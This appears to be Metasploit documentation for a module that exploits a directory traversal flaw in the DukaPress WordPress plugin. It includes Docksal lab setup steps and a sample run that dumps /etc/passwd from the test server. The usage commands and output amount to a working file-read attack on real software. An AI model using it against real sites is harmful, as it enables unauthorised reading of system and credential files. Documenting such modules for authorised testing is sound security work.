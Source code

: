 ## Description

This module exploits a directory traversal vulnerability in WordPress Plugin
"DukaPress" version 2.5.2, allowing to read arbitrary files with the
web server privileges.

## Vulnerable Application

### Wordpress with installed DukaPress <= 2.5.3
* [https://wordpress.org/plugins/dukapress](https://wordpress.org/plugins/dukapress)
* [Plugin v2.5.3](https://downloads.wordpress.org/plugin/dukapress.2.5.3.zip)

### Setup using Docksal
Install [Docksal](https://docksal.io/)

Create a new Wordpress installation using `fin project create`

```
fin project create
1. Name your project (lowercase alphanumeric, underscore, and hyphen): msf-wp

2. What would you like to install?
  PHP based
    1.  Drupal 8
    2.  Drupal 8 (Composer Version)
    3.  Drupal 7
    4.  Wordpress
    5.  Magento
    6.  Laravel
    7.  Symfony Skeleton
    8.  Symfony WebApp
    9.  Grav CMS
    10. Backdrop CMS

  Go based
    11. Hugo

  JS based
    12. Gatsby JS
    13. Angular

  HTML
    14. Static HTML site

Enter your choice (1-14): 4

Project folder:   /home/weh/dev/msf-wp
Project software: Wordpress
Project URL:      http://msf-wp.docksal

Do you wish to proceed? [y/n]: y
Cloning repository...
Cloning into 'msf-wp'...
...
3. Installing site
 Step 1  Initializing stack...
Removing containers...
...
Starting services...
Creating network "msf-wp_default" with the default driver
Creating volume "msf-wp_cli_home" with default driver
Creating volume "msf-wp_project_root" with local driver
Creating volume "msf-wp_db_data" with default driver
Creating msf-wp_db_1  ... done
Creating msf-wp_cli_1 ... done
Creating msf-wp_web_1 ... done
Connected vhost-proxy to "msf-wp_default" network.
Waiting for project stack to become ready...
 Step 2  Initializing site...
 Step 2  Generating wp-config.php...
Success: Generated 'wp-config.php' file.
 Step 3  Installing site...
msmtp: envelope-from address is missing
Success: WordPress installed successfully.

Open http://msf-wp.docksal in your browser to verify the setup.
Admin panel: http://msf-wp.docksal/wp-admin. User/password: admin/admin  
 DONE!  Completed all initialization steps.
```

Download the wordpress plugin

```
cd msf-wp/wp-content/plugins
wget https://downloads.wordpress.org/plugin/dukapress.2.5.3.zip
unzip dukapress.2.5.3.zip

```

Login and click on DukaPress "Activate" Link

```
http://msf-wp.docksal/wp-admin/plugins.php
user: admin
pass: admin
```

## Verification Steps

1. Do: ```use auxiliary/scanner/http/wp_dukapress_file_read```
2. Do: ```set RHOSTS [IP]```
3. Do: ```set VHOST [IP]```
4. Do: ```run```

## Options

**FILEPATH**

The path to the file to read (default: `/etc/passwd`)

**DEPTH**

Traversal Depth (to reach the root folder) (default: `7`)


## Scenarios

### Wordpress 5.2 running in Docksal

Follow the Instructions above to setup the Docksal Containers.

````
msf5 > use auxiliary/scanner/http/wp_dukapress_file_read
msf5 > set RHOST msf-wp.docksal
RHOST => msf-wp.docksal
msf5 > set VHOST msf-wp.docksal
VHOST => msf-wp.docksal
msf5 > run

[*] Downloading file...

root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
_apt:x:100:65534::/nonexistent:/bin/false
sshd:x:101:65534::/run/sshd:/usr/sbin/nologin
docker:x:1000:1000::/home/docker:/bin/bash

[+] File saved in: /home/weh/.msf4/loot/20191009203058_default_192.168.64.100_dukapress.file_560342.txt
[*] Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
```
